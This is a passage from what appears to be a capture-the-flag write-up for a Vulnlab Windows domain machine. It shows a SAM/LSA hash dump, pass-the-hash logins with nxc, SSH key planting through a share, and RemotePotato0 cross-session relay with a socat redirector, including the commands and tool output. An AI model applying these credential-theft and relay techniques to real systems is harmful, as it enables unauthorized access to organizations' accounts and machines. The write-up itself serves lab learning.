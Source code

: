 ```

[*] Target system bootKey: <REDACTED>
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:<REDACTED>:<REDACTED>:::
Guest:501:<REDACTED>:<REDACTED>:::
DefaultAccount:503:<REDACTED>:<REDACTED>:::
WDAGUtilityAccount:504:<REDACTED>:<REDACTED>:::
operator:1000:aad3b435b51404eeaad3b435b51404ee:5d8c3d1a20b<REDACTED>763ca0d50:::
[*] Dumping cached domain logon information (domain/username:hash)
SHIBUYA.VL/Simon.Watson:$DCC2$10240#Simon.Watson#04b20c71<REDACTED>0b3409e325: (2025-02-16 11:17:56)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:<REDACTED>
$MACHINE.ACC: <REDACTED>:1fe837c138d<REDACTED>3239cd3cb42
<SNIP>
```
With this info, I recalled there is another domain machine account which is **AWSJPWK0222$**, then I tried the NTLM hash of $MACHINE.ACC then got a hit (this is just informative, not so helpful). But the important thing is that the user Simon.Watson is also on this machine and gave us the domain cache credential, this was not crackable.

Looking back, there is a user **operator** on this machine, this might be Simon.Watson local account, so in my first guess, I got Simon.Watson.
```
nxc smb awsjpdc0522.shibuya.vl -u simon.watson -H 5d8c3d1a20b<REDACTED>f6763ca0d50                 
SMB         10.10.114.33    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.114.33    445    AWSJPDC0522      [+] shibuya.vl\simon.watson:5d8c3d1a20b<REDACTED>f6763ca0d50
```
Now to get access on the machine, remember that we have SSH service on this machine and the **users** share, I will use *ssh-keygen* and put the public key on the Simon.Watson .ssh folder on the share -> we can ssh into the machine with the private key.

![image](https://github.com/user-attachments/assets/774db87e-4e45-40df-941c-430f00ae90bc)

# Privilege Escalation
At this point, I will gather all the information on the domain with SharpHound for BloodHound data on the machine since the **LDAP/LDAPS** ports are blocked, or we could use other collectors through socks.

My BloodHound didn't show the HasSession at first, apparently with the collect method *all* is not enough, I tried almost everything to find the next attack vector. I asked serioton on Vulnlab Discord channel for a hint, turns out his collector also missed this, so to be able to move on, I ran the SharpHound again with the parameter **-c all,LoggedOn**, now we got the actual enough information.

![image](https://github.com/user-attachments/assets/727d5924-5f2d-4051-8d22-df30d4aa9d5d)

So there is a user Nigel.Mills, who is also currently having a session on the machine, to abuse this, I tried keylogging stuff, but didn't work, almost everything got flagged by defender, one more thing we could try is cross-session relay with [RemotePotato](https://github.com/antonioCoco/RemotePotato0), you would be familiar with this if you have done Rebound from HTB.
```
PS C:\Users\simon.watson> .\RemotePotato0.exe -m 2 -s 1 -x 10.8.4.152 -p 9999 
[*] Detected a Windows Server version not compatible with JuicyPotato. RogueOxidResolver must be run remotely. Remember to forward tcp port 135 on (null) to your victim machine on port 9999
[*] Example Network redirector: 
        sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:{{ThisMachineIp}}:9999
[*] Starting the RPC server to capture the credentials hash from the user authentication!!
[*] Spawning COM object in the session: 1
[*] Calling StandardGetInstanceFromIStorage with CLSID:{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
```
